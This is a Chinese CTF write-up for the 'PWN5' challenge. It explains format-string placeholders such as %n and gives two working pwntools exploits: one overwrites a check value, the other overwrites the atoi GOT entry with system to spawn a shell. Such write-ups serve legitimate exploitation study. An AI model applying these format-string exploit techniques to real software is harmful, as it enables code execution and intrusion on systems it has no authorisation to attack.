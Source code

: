 # [第五空间2019 决赛]PWN5

## 程序分析

首先使分析程序，有下图可知，程序较为简单，**`read`函数读取数据都做了长度限制，所以不存在栈溢出，因此需要转换思路；考虑到输入的数据到了`buf`。而程序中，使用`printf`来输出`buf`，因此考虑利用格式化字符串漏洞**

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-03_16-43-00.png)

## 格式化字符串

格式化占位符（format placeholder），语法是：

`%[parameter][flags][field width][precision][length]type`

**Parameter**可以忽略或者是：

| **字符** | **描述**                                                     |
| -------- | ------------------------------------------------------------ |
| n$       | *n*是用这个格式说明符（specifier）显示第几个参数；这使得参数可以输出多次，使用多个格式说明符，以不同的顺序输出。 如果任意一个占位符使用了*parameter*，则其他所有占位符必须也使用*parameter*。这是[POSIX](https://zh.wikipedia.org/wiki/POSIX)扩展，不属于[ISO C](https://zh.wikipedia.org/wiki/C语言)。例：`printf("%2$d %2$#x; %1$d %1$#x",16,17)` 产生"`17 0x11; 16 0x10`" |

**Type**，也称转换说明（conversion specification/specifier），重点类型：

| **字符** | **描述**                                                     |
| -------- | ------------------------------------------------------------ |
| `x`,` X` | 16进制`unsigned int`。'`x`'使用小写字母；'`X`'使用大写字母。如果指定了精度，则输出的数字不足时在左侧补0。默认精度为1。精度为0且值为0，则输出为空。 |
| n        | 不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。          -------------------->可以利用来修改特定地址的数据 |
|          |                                                              |



## 思路

主要有两种思路：

1. 原本的unk_804C044中的数据是程序开始时，随机生成的；我们可以直接利用**格式化字符串改写unk_804C044之中的数据为特定数据**，然后输入数据对比得到shell。
2. 利用格式化字符串改写`atoi`的`got`地址，将其改为`system`的地址，配合之后的输入，得到shell。这种方法具有普遍性，也可以改写后面的函数的地址，拿到shell





## exp

### 第一种思路

```python
#!/usr/bin/env python3
from pwn import *

context(os='linux', arch='i386', log_level='debug')
#context.terminal = ['tmux','splitw','-h']
io = process("/home/always/PWN/PWN5")
#io = remote("node4.buuoj.cn",27713)

addr = 0x804C044
payload1 = p32(addr)+b"%10$n"   #字符串相对与esp 偏移量为10(esp处为0开始计数)，addr 的长度为4 所以*0x804C044 = 4
#gdb.attach(io)
io.sendlineafter("your name:",payload1)

io.sendlineafter("your passwd:",str(0x00000004)) #送入 4 使得等值判断成立

io.interactive()
```

效果如下所示：**此时unk_804C044中的数据成功被设定为了4**；是一个确定的数据

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-06_19-38-26.png)

### 第二种思路

```python
#!/usr/bin/env python3
from pwn import *

context(os='linux', arch='i386', log_level='debug')
#context.terminal = ['tmux','splitw','-h']
io = process("/home/always/PWN/PWN5")
e = ELF("/home/always/PWN/PWN5")
#io = remote("node4.buuoj.cn",27713)

atoi_got_addr = e.got["atoi"]		#注意这里的atoi填入got地址，因为plt地址只是一个跳转，不是最后解析的数据，对照 plt表和 got表查看
system_plt_addr = e.plt["system"]
#gdb.attach(io)
payload=fmtstr_payload(10,{atoi_got_addr:system_plt_addr})   #对于fmtstr_payload 在下面说明

io.sendlineafter("your name:",payload)

io.sendline(b'/bin/sh\x00')

io.interactive()
```



> `fmtstr_payload`是`pwntools`里面的一个工具，用来简化对格式化字符串漏洞的构造工作。

**fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')**

```
第一个参数表示格式化字符串的偏移;
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT:systemAddress};
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可;
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写
```



> 实际上我们常用的形式是`fmtstr_payload(offset,{address1:value1})`
